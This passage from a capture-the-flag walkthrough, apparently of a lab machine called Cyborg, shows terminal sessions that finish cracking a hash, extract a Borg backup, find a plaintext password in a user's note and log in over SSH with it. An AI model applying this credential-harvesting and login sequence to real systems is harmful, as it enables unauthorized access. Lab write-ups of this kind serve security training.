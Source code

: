 ```
1g 0:00:00:00 DONE (2023-01-18 03:14) 1.449g/s 56486p/s 56486c/s 56486C/s willies..salsabila
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We successfully cracked the hash ! Now, let's extract the archive :  
```
attacker@AttackBox:~/Cyborg/home/field/dev$ borg extract final_archive::music_archive
Enter passphrase for key /home/attacker/Cyborg/home/field/dev/final_archive: 
attacker@AttackBox:~/Cyborg/home/field/dev$ ls
final_archive  hash.txt  home
```

Now, there is a new directory named `home`, let's see what's inside :  
```
attacker@AttackBox:~/Cyborg/home/field/dev$ cd home
attacker@AttackBox:~/Cyborg/home/field/dev/home$ ls
alex
attacker@AttackBox:~/Cyborg/home/field/dev/home$ cd alex
attacker@AttackBox:~/Cyborg/home/field/dev/home/alex$ ls -la
total 64
drwxr-xr-x 12 attacker attacker 4096 29 déc.   2020 .
drwx------  3 attacker attacker 4096 18 janv. 03:14 ..
-rw-------  1 attacker attacker  439 28 déc.   2020 .bash_history
-rw-r--r--  1 attacker attacker  220 28 déc.   2020 .bash_logout
-rw-r--r--  1 attacker attacker 3637 28 déc.   2020 .bashrc
drwx------  4 attacker attacker 4096 28 déc.   2020 .config
drwx------  3 attacker attacker 4096 28 déc.   2020 .dbus
drwxrwxr-x  2 attacker attacker 4096 29 déc.   2020 Desktop
drwxrwxr-x  2 attacker attacker 4096 29 déc.   2020 Documents
drwxrwxr-x  2 attacker attacker 4096 28 déc.   2020 Downloads
drwxrwxr-x  2 attacker attacker 4096 28 déc.   2020 Music
drwxrwxr-x  2 attacker attacker 4096 28 déc.   2020 Pictures
-rw-r--r--  1 attacker attacker  675 28 déc.   2020 .profile
drwxrwxr-x  2 attacker attacker 4096 28 déc.   2020 Public
drwxrwxr-x  2 attacker attacker 4096 28 déc.   2020 Templates
drwxrwxr-x  2 attacker attacker 4096 28 déc.   2020 Videos
```

So we have a username `alex`. We also have his home directory. Let's see what's inside his `Documents` :  
```
attacker@AttackBox:~/Cyborg/home/field/dev/home/alex$ cd Documents/
attacker@AttackBox:~/Cyborg/home/field/dev/home/alex/Documents$ ls
note.txt
attacker@AttackBox:~/Cyborg/home/field/dev/home/alex/Documents$ cat note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

We have the password for user `alex` ! Let's use those credentials to login on SSH :  
```
attacker@AttackBox:~/Cyborg/home/field/dev/home/alex/Documents$ ssh alex@10.10.45.29
The authenticity of host '10.10.45.29 (10.10.45.29)' can't be established.
ECDSA key fingerprint is SHA256:uB5ulnLcQitH1NC30YfXJUbdLjQLRvGhDRUgCSAD7F8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.45.29' (ECDSA) to the list of known hosts.
alex@10.10.45.29's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


```